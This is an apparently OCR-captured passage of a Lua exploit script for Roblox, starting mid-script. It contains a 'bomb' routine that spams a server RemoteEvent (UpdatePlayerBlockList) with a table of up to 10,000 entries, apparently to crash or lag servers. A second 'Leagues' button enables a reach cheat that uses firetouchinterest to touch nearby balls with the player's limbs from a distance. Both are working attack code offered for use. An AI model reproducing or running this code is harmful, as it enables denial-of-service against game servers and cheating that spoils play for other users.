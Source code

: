     local calculatemax = getmaxvalue(tableincrease)
    local maximum

    if calculatemax then
        maximum = calculatemax
        else
        maximum = 10000
    end

    for i = 1, maximum do
        table.insert(maintable, spammedtable)
    end

    for i = 1, tries do
        game.RobloxReplicatedStorage.UpdatePlayerBlockList:FireServer(maintable)
    end
   end

   bomb(250, 10) --// change values if client crashes
end
   end
end)

---------------------------------------------------------------

local Tab = Window:NewTab("Leagues")
local Section = Tab:NewSection("PSML/UFA/LBA")
Section:NewButton("Enable", "ButtonInfo", function()
    print("Clicked")
-- h

local player = game.Players.LocalPlayer
local mouse = player:GetMouse()

_G.Magnitude = 10
_G.Enabled = true -- Set this to false if you want to disable the script

local leg = game.Players.LocalPlayer.Character["Right Leg"]
local leg2 = game.Players.LocalPlayer.Character["Left Leg"]
local LArm = game.Players.LocalPlayer.Character["Left Arm"]
local arm = game.Players.LocalPlayer.Character["Right Arm"]
local torso = game.Players.LocalPlayer.Character.Torso
local head = game.Players.LocalPlayer.Character.Head


local player = game.Players.LocalPlayer
local mouse = player:GetMouse()
mouse.KeyDown:connect(function()
    if _G.Enabled == true then
for i, balls in pairs(game.Workspace:GetChildren()) do
                            if balls:IsA("BasePart") or balls:IsA("Part") then
                                if balls.Size == Vector3.new(2.5,2.5,2.5) then
                            local ball = balls
                             if (ball.Position - game.Players.LocalPlayer.Character.HumanoidRootPart.Position).magnitude <= _G.Magnitude then
firetouchinterest(ball, leg, 0)
firetouchinterest(ball, leg2, 0)
firetouchinterest(ball, torso,  0)
firetouchinterest(ball, head, 0)
firetouchinterest(ball, arm, 0)
wait()
firetouchinterest(ball, leg, 1)
firetouchinterest(ball, leg2, 1)
firetouchinterest(ball, torso,  1)
firetouchinterest(ball, head, 1)
firetouchinterest(ball, arm, 1)
end
end